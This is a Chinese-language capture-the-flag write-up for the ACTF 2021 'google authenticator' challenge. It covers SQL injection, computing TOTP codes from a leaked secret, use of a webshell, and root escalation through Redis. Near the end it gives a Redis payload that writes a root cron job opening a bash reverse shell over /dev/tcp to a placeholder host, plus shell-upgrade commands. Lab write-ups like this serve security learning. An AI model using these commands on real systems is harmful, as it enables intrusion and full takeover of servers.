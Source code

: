 # ACTF 2021 google authenticator writeup

### 知识点

 - SQL注入
 - Google 身份验证器算法
 - Redis 提权

### SQL注入

打开题目，是一个登录框


![](https://i.imgur.com/T7EWWSh.png)

存在各种注入，数据库里面保存了admin的明文密码


![](https://i.imgur.com/cNCVXLP.png)

登录之后，拿到路径 `/google_authenticator.php`
 
![](https://i.imgur.com/oKSwbgr.png)

访问，要输入谷歌身份验证码

![](https://i.imgur.com/nOHOWYC.png)

谷歌身份验证码是什么，请大家自行了解，下面简单说一下谷歌身份验证码的生成算法

### 谷歌设备验证码生成


Google 身份验证器算法是TOTP。

Time-based One-time Password (TOTP)：即基于时间的一次性密码算法，也称时间同步的动态密码。

算法过程详情查看：[Google验证器是如何实现的？ - 知乎](https://zhuanlan.zhihu.com/p/132478048)

我们可以用pyotp库快捷的运算TOTP,举个例子

```python
import pyotp

Secret = 'NBSWY3DPO5XXE3DE'
print(pyotp.TOTP(Secret).now())
```

![](https://i.imgur.com/XZndOmA.png)


这时候回头看看数据库，里面有个otp_secret_key字段，是JWT，base64解码，拿到secret，从而就可以计算出谷歌身份验证码了

![](https://i.imgur.com/80Ie0f3.png)

输入验证码后，给出下一个路径

![](https://i.imgur.com/2Gil8Xx.png)


访问结果是空白页面，查看源码，发现有一句话提示

![](https://i.imgur.com/HfZneEQ.png)

蚁剑连上一句话，根目录没有发现flag，查看 `/run.sh` 文件，flag在/root/目录下，但是当前拿到的是Apache用户权限，所以要提权

![](https://i.imgur.com/EQWxwJi.png)


### redis 提权


查看端口和进程信息，发现有以root权限启动的redis，那么就明了了，使用redis提权

![](https://i.imgur.com/2MN5EEJ.png)

redis 利用方式本质是写文件，一般使用下面三种方法

- 写Webshell
- 写SSH Key
- 写定时任务

此外还可以redis 加载`.so`模块从而命令执行，主从复制RCE，但是需要redis >= 4.0 ,当前环境的redis 版本是 3.2.12

写Webshell，写到Web目录下还是apache权限，写SSH Key 也没有 SSH 可以远程连接

所以这时就通过写定时任务，注意下redis 写定时任务，centos可以正常执行定时任务，但是由于redis写入文件会写入脏数据，ubuntu计划任务不允许有脏数据，所以ubuntu没办法通过redis写入计划任务进行操作。


最后这redis提权，手动输入redis命令的话则需要一个交互式终端，构造一个交互式终端方法如下：

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

ctrl+z

stty raw -echo; fg
stty rows 38 columns 116
```

在蚁剑弹个shell给vps，接着一顿操作之后获得了交互式终端，支持tab补全

![](https://i.imgur.com/Cgpfyq8.png)

如果上述操作并不能获取一个交互式终端，可尝试这篇文章的方法：[反弹Shell升级为交互式Shell](https://www.jianshu.com/p/e7202cb2c3dd)

然后在交互式终端下运行redis-cli，输入payload ，静待root shell

```
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/ip/port 0>&1\n"
save
```

![](https://i.imgur.com/C18IVLh.png)
